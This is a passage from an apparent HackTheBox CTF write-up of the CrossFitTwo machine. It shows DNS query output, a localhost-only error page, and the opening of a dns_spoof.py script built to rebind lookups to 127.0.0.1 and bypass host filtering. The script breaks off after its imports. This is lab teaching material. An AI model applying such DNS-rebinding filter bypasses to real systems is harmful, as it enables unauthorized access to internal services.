 ```
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ADDITIONAL SECTION:
;; OPT PSEUDOSECTION
; EDNS: version: 0, flags: do; udp: 4096
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1102
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ANSWER SECTION:
sm1l3zemployees.crossfit.htb. 600     IN      A       10.10.14.65
;; AUTHORITY SECTION:
sm1l3zemployees.crossfit.htb. 600     IN      SOA     ns1.sm1l3zemployees.crossfit.htb. andrei.sm1l3zemployees.crossfit.htb. 201307231 3600 10800 86400 3600
;; ADDITIONAL SECTION:
sm1l3zemployees.crossfit.htb. 600     IN      NS      ns1.sm1l3zemployees.crossfit.htb.
sm1l3zemployees.crossfit.htb. 600     IN      NS      ns2.sm1l3zemployees.crossfit.htb.
```

[![wireshark_double](/img/crossfittwo/wireshark_double.png)](/img/crossfittwo/wireshark_double.png)

Looking at the output from the curl request it seems like we also have to forward the second request to localhost aswell to bypass the filtering.

```
...[snip]...
<body>
<div class="alert alert-danger alert-dismissible fade show" role="alert">Only local hosts are allowed.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button></div>
        <div class="limiter">
...[snip]...
```

Modyfing our `dns_spoof.py` script we change it to resolve the first two requests to `127.0.0.1` and the third request to our ip.

`dns_spoof.py`
```py
#!/usr/bin/env python
# coding=utf-8

import argparse
import datetime
import sys
import time
import threading
import traceback
import socketserver
import struct
try:
    from dnslib import *
except ImportError:
    print("Missing dependency dnslib: <https://pypi.python.org/pypi/dnslib>. Please install it with `pip`.")
    sys.exit(2)

a = 1
class DomainName(str):
```